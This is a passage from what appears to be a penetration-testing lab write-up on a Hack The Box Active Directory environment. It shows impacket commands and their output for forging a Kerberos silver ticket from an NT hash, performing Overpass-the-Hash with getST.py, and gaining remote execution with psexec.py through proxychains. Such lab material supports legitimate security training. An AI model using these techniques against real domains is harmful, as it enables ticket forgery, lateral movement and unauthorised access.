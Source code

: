 In order not lose `127.0.0.1` entry from the `/etc/resolv.conf` after each reboot you should install `resolvconf` and add localhost to its `head`:

```
root@kali:$ sudo apt install resolvconf -y
root@kali:$ vi /etc/resolvconf/resolv.conf.d/head
nameserver 127.0.0.1
root@kali:$ sudo resolvconf -u
```

#### Refs

* [Impacket, Proxychains, Rubeus, and UAC – ijustwannaredteam](https://ijustwannared.team/2020/02/13/impacket-proxychains-rubeus-and-uac/)

### Exploitation

Silver ticket can be obtained in a several ways:

1\. Using impacket/ticketer.py (`Impacket v0.9.22.dev1+20200611.111621.760cb1ea`) to generate one locally:

```
root@kali:$ ticketer.py -nthash fc64914083cfe79b3a01cd44550044fe -domain-sid S-1-5-21-4266912945-3985045794-2943778634 -domain htb.local -spn cifs/dev.htb.local Non_Existent_User
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for htb.local/Non_Existent_User
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Non_Existent_User.ccache

root@kali:$ export KRB5CCNAME=`pwd`/Non_Existent_User.ccache

root@kali:$ proxychains4 -q psexec.py 'htb.local/Non_Existent_User@dev.htb.local' -k -no-pass -debug
[+] Impacket Library Installation Path: /usr/local/lib/python3.8/dist-packages/impacket
[+] StringBinding ncacn_np:dev.htb.local[\pipe\svcctl]
[+] Using Kerberos Cache: /root/htb/endgames/hades/tickets/Non_Existent_User.ccache
[+] Returning cached credential for CIFS/DEV.HTB.LOCAL@HTB.LOCAL
[+] Using TGS from cache
[*] Requesting shares on dev.htb.local.....
```

2\. Or by perfoming Overpass-the-Hash with further Pass-the-Ticket via impacket/getST.py (or impacket/getTGT.py):

```
root@kali:$ proxychains4 -q getST.py -dc-ip 192.168.3.203 -spn cifs/dev.htb.local -hashes :fc64914083cfe79b3a01cd44550044fe HTB/'DEV$'
[*] Getting TGT for user
[*] Getting ST for user
[*] Saving ticket in DEV$.ccache
root@kali:$ export KRB5CCNAME=`pwd`/'DEV$.ccache'
root@kali:$ proxychains4 -q psexec.py 'htb.local/DEV$@dev.htb.local' -k -no-pass -debug
[+] Impacket Library Installation Path: /usr/local/lib/python3.8/dist-packages/impacket
[+] StringBinding ncacn_np:dev.htb.local[\pipe\svcctl]
[+] Using Kerberos Cache: /root/htb/endgames/hades/tickets/DEV$.ccache
[+] Returning cached credential for CIFS/DEV.HTB.LOCAL@HTB.LOCAL
[+] Using TGS from cache
[*] Requesting shares on dev.htb.local.....
```